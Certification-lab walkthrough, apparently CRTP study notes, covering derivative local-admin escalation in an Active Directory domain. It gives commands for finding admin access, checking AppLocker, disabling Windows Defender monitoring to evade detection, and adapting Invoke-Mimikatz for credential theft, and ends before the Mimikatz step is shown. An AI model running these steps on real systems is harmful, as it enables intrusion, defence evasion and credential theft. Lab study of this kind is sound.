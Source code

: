 ```yaml
---
title: Active Directory (AD) | Local Privilege Escalation (Part 3)
date: 2024-07-03 00:00:00 +0800
categories: [Cert, CRTP]
tags: [cert,active directory]     ## TAG names should always be lowercase
render_with_liquid: false
description: Designed to provide a comprehensive guide to Active Directory (AD) attack techniques
---
```


## **Step 6: Derivative Local Admin Escalation**

**Objective**: Escalate privileges to domain admin using derivative local admin access on dcorp-adminsrv.

### **Identify Machines with Local Admin Access**
- Use Find-PSRemotingLocalAdminAccess.ps1 PowerShell script to identify machines where local admin privileges are available.

```bash
. C:\AD\Tools\Find-PSRemotingLocalAdminAccess.ps1
Find-PSRemotingLocalAdminAccess
```
- Note down dcorp-adminsrv as having local admin privileges.


### **Check Applocker Configuration**

- Verify Applocker policy on dcorp-adminsrv to understand script execution permissions.

```bash
winrs -r:dcorp-adminsrv reg query HKLM\Software\Policies\Microsoft\Windows\SRPV2\Script
```

- Confirm the presence of Applocker rules allowing scripts from %PROGRAMFILES% and %WINDIR%.

### **Inspect Applocker Policy via PowerShell**

- Enter a PowerShell session on dcorp-adminsrv to check Applocker policy details.

```bash
Enter-PSSession dcorp-adminsrv
$ExecutionContext.SessionState.LanguageMode  # Confirm Constrained Language Mode
Get-AppLockerPolicy -Effective | Select-Object -ExpandProperty RuleCollections
```

- Ensure scripts from %PROGRAMFILES% are allowed for the Everyone group.

### **Disable Windows Defender Real-time Monitoring**

- Disable Windows Defender real-time monitoring on dcorp-adminsrv to evade antivirus detection.

```bash
Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
```

### **Modify and Transfer Invoke-Mimikatz**

- Due to Constrained Language Mode restrictions, modify Invoke-Mimikatz.ps1 to embed function calls and create Invoke-MimikatzEx.ps1.
- Transfer the modified script (Invoke-MimikatzEx.ps1) from your local machine to dcorp-adminsrv.
